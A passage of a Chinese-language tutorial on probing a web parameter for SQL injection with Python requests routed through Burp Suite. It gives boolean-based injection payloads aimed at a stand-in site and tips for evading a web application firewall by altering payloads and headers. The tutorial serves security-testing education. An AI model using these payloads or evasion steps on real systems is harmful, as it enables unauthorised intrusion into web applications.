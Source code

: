 使用try...except捕获可能的异常，例如网络连接问题或代理服务器配置错误。如果发生异常，打印异常信息。



**(5)测试不同负载**

~~~                                python
test_with_proxy("http://vuln-site.com/item", "1' AND 1=1 -- ")  # 测试条件为真的情况
test_with_proxy("http://vuln-site.com/item", "1' AND 1=2 -- ")  # 测试条件为假的情况
~~~

调用test_with_proxy函数，测试两个不同的恶意负载：

1' AND 1=1 -- ：条件为真，用于测试是否存在SQL注入漏洞。

1' AND 1=2 -- ：条件为假，用于测试正常情况。



完整代码如下：

~~~python
proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}

def test_with_proxy(url, payload):
    try:
        response = requests.get(
            url, 
            params={"id": payload},
            proxies=proxies,
            verify=False 
        )
        print(f"状态码: {response.status_code}, 响应长度: {len(response.text)}")
    except Exception as e:
        print(f"代理请求异常: {e}")


test_with_proxy("http://vuln-site.com/item", "1' AND 1=1 -- ")
test_with_proxy("http://vuln-site.com/item", "1' AND 1=2 -- ")
~~~



##### (3)查看请求内容，确认恶意负载被正确发送

- 查看请求内容：在Burp Suite的“Intercept”子选项卡中，你会看到发送到http://vuln-site.com/item的请求。

- 确认恶意负载1' AND 1=1 -- 被正确发送。

##### (4)如果WAF阻止了请求，尝试修改请求内容以绕过检测

可以尝试以下方法：

- 使用注释符：在恶意负载中添加注释符，绕过WAF的检测。

~~~python
test_with_proxy("http://vuln-site.com/item", "1' AND 1=1 /*")
~~~

- 改请求头：在请求中添加或修改某些头信息，绕过WAF的检测。

~~~python
headers = {
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.3',
    'Referer': 'http://vuln-site.com/'
}
response = requests.get(
    url,
    params={"id": payload},
    headers=headers,
    proxies=proxies,
    verify=False)
~~~
